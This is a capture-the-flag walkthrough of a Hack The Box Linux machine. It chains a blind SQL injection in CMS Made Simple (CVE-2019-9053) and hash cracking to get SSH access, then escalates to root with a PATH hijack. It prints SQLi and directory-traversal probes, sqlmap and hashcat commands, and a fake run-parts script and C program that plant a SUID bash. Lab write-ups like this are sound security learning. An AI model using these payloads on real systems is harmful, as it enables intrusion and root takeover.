



---
tags:
  - Linux
  - HTTP
  - CVE
  - SQL Injection
  - PATH Hijack
---

... is a easy HTB machine which hosts a `http` service with a `blind SQL injection` in the used `CMS`. Exploiting it yields `ssh` credentials. For the privilege escalation, the user is allowed to write into `/usr/local` due to belonging in a group. This allows for a `PATH` hijack attack.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This seems to be a standard `web-vulnerability` HTB machine where a mis-configured `http` service leads to `RCE` or `leaked credentials`. The `nmap` script `http-robots.txt` tells me that the endpoint `/writeup` is available!

When visiting `http://$IP` i see a static web-site informing me that the content is not yet ready. The footer also tells me that this page was hand crafted with `VIM`. Luckily, the `/robots.txt` already found the endpoint `/writeup`, so i decided to look into that too. On there, i find links to `Home Page`, `ypuffy`, `blue` , and `writeup`! Clicking on one of the write-ups i get redirected to `/writeup/index.php?page=<writeup-name>`.

Due to the nature of the `?page=<content>` parameter, i tried accessing other files outside the web-root, such as `/etc/passwd` (also tried with directory traversal: `../../../../../etc/passwd`), but that seemed to be blocked.

The other thing i noticed is that the footer now says that the pages are `NOT` handcrafted with `VIM`. That prompted me to look deeper into the `view-source` of the pages to see anything hidden. And i find this tag:
```html
<!-- ... -->
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<!-- ... -->
```
I quickly google `CMS Made Simple 2019`. The results instantly show me the `CVE-2019-9053`, where an issue was found in `CMS Made Simple 2.2.8`. The vulnerability exists in the URL parameter `m1_idlist`, where special elements used in SQL commands are not sanitized!

### Initial Exploitation
Although, i cannot test if this `SQL injection` is present with simple payloads such as
```http
http://10.129.21.96/writeup/?m1_idlist="#
```
... or
```http
http://10.129.21.96/writeup/?m1_idlist='--
```
... as this is a blind `SQL injection`, meaning the output will not be reflected on the page. The best tool for `blind SQL injection` is `sqlmap`, as it automates everything.

I intercept a request to the `/writeup` endpoint alongside the special `m1_idlist` parameter using `burpsuite`, and save the whole request in a `request.req` file, where i mark the parameter with a `*`, as `sqlmap` can then use this special mark to identify the desired injection point. I can then use this `request.req` file in a `sqlmap` command as follows:
```bash
sqlmap -r request.req --batch --dump
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -r: specify a file which holds the vulnerable HTTP request
# --batch: automate [Y/n] questions
# --dump: ... the database!
```

I kept receiving these error messages from `sqlmap`:
```bash
[CRITICAL] unable to connect to the target URL ('Connection refused')
```
This made me think that there was some kind of `brute-force` protection which gives our IP a time-out, blocking it from making any further requests for a a while. 

As `sqlmap` tries a lot of things to make sure the `SQL injection` truly exists, i decided to simply use the `exploit` from [exploit-db](https://www.exploit-db.com/exploits/46635) which is specifically tailored to this `CVE`, meaning it will instantly try to dump the database without trying to identify the `sql` back-end.

Sadly, this `python` script is not executable with `python3`, as it uses the `python2`-style `print "..."` statements instead of `print("...")`. It is a quick fix though, with the tool `2to3 -w ./exploit.py`! I can then use it as follows:
```bash
python3 exploit.py -u http://$IP/writeup
```
After waiting for the successful `blind SQL injection`, i receive the following information:
```bash
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

This seems to be a simple `MD5` hash with a `salt`, so i create a file named `hash.txt` where i store them in the format `<password-hash>:<salt>`. The corresponding `hashcat` mode is `20`, as that correlates to `md5($salt.$pass)`. This command then cracks the hash:
```bash
hashcat -m 20 ./hash.txt ./rockyou.txt
```
This reveals the clear-text password `raykayjay9` for the user `jkr`. These credentials can be used for `ssh` access, which removes the need for `Lateral Movement`!

### Privilege Escalation
I try the three main privilege escalation vectors:

- `sudo -l`: mis-configured `sudoer` file
- `netstat -tulnp`: hidden services only accessible via localhost
- `id`: user belonging to a weird group

`id` reveals the following `groups` which `jkr` belongs to:
```bash
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```
I googled what each of these groups are for and found this:

- `cdrom`: grants users `READ,WRITE` access to `CD/DVD-ROM`.
- `floppy`: grants users `READ,WRITE` access to floppy disk drives at `/dev/fd0`.
- `audio`: grants users low-level hardware access to sound cards and microphones.
- `dip`: grants users the permissions to use dial-up networking tools like `ppp`, `dip`, `wvdival`,...
- `video`: grants users direct access to video hardware such as webcams.
- `plugdev`: grants users access to plug-able hardware devices such as `USB` devices.
- `staff`: grants users `WRITE` access to `/usr/local`.
- `netdev`: grants users access to network interfaces such as `eth0` or `wlan0`.

The most interesting group seems to be `staff`, as `/usr/local` has the sub-directory `/bin` which includes binaries. And `/usr/local/bin` is the first entry that gets searched by the shell in the `$PATH` variable (check with `echo $PATH`). If i find out what other users (maybe `root`) is executing on a regular basis, i might find a binary which is located in `/usr/bin`. As `/usr/local/bin` gets searched first, i can place my custom binary there which gets executed before the intended one, giving me code execution as the other user!

To find out what other users may be executing the tool `pspy` can be used! I download it onto my local machine from the official [GitHub](https://github.com/dominicbreuker/pspy) releases page, and copy it to the target using `scp` (`copy via ssh`). The command is structured like `scp <file-to-upload> <user>@<IP>:<destination>`. The two parameters can also be swapped to download files! This would be the concrete command for this scenario:
```bash
scp pspy64 jkr@$IP:/home/jkr/
```

I make it executable with `chmod +x`, and start it with no flags:
```bash
./pspy64
```

When inspecting the executed commands for a while i only notice a `CRON` job which executes the following command:
```bash
/bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1
```
As this command uses the full path to `/root/bin/cleanup.pl`, i cannot hijack the path, as the shell will not look into the `$PATH` variable, due to the full path being specified.

The next thing i tried was logging on via `ssh` on another window to see if some event gets triggered when someone logs on via `ssh`. And something actually happens:


As it may be a bit too small to read, the following command gets executed when someone logs in:
```bash
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```
As this is a big command, i will break it down:

- `sh -c`: executes the following command using the `sh` shell.
- `env -i`: runs the following command in a modified environment. Flag `-i` means start with an empty environment.
- `PATH=...`: manually set the `$PATH` variable to a custom path, as it was cleared by `-i`.
- `run-parts -lsbsysinit /etc/update-motd.d`: run all executable scripts in the directory `/etc/update-motd.d`.
- `> /run/motd.dynamic.new`: redirect the output of the previous command into `motd.dynamic.new`.

The smoking gun in this command is that the `run-parts` does not specify a full path, so the shell looks into the `$PATH` variable, and it looks into `/usr/local/sbin` and `/usr/local/bin` first! The usual binary resides in `/bin/run-parts` (found with `which run-parts`), but i will create a new one!

I create a file `nano /usr/local/sbin/run-parts` which has the following content:
```bash
#!/bin/sh
cp /bin/bash /home/jkr/rootme; chmod u+s /home/jkr/rootme
```
After that i can `chmod +x /usr/local/sbin/run-parts` and simply re-log into the `ssh` service to receive a `rootme` binary which elevates me to `root` by executing it with the `./rootme -p` flag!

#### Alternative way
As placing a `run-parts` bash script into `/usr/local/sbin` makes it readable in clear-text, an alternative, (a bit) sneakier way to do that is to compile a binary. To do so, i require this `C` script:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    system("cp /bin/bash /home/jkr/rootme; chmod u+s /home/jkr/rootme");
    return 0;
}
```
This can be then compiled into a binary using `gcc run-parts.c -o run-parts` (must be done on local system, as `gcc` is not on the target).

The binary can then be copied to the desired directory with this `scp` command:
```bash
scp ./run-parts jkr@$IP:/usr/local/sbin/run-parts
```
And logging on via `ssh` instantly executes this code, as it was executable to begin with!

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `root` worked as follows:

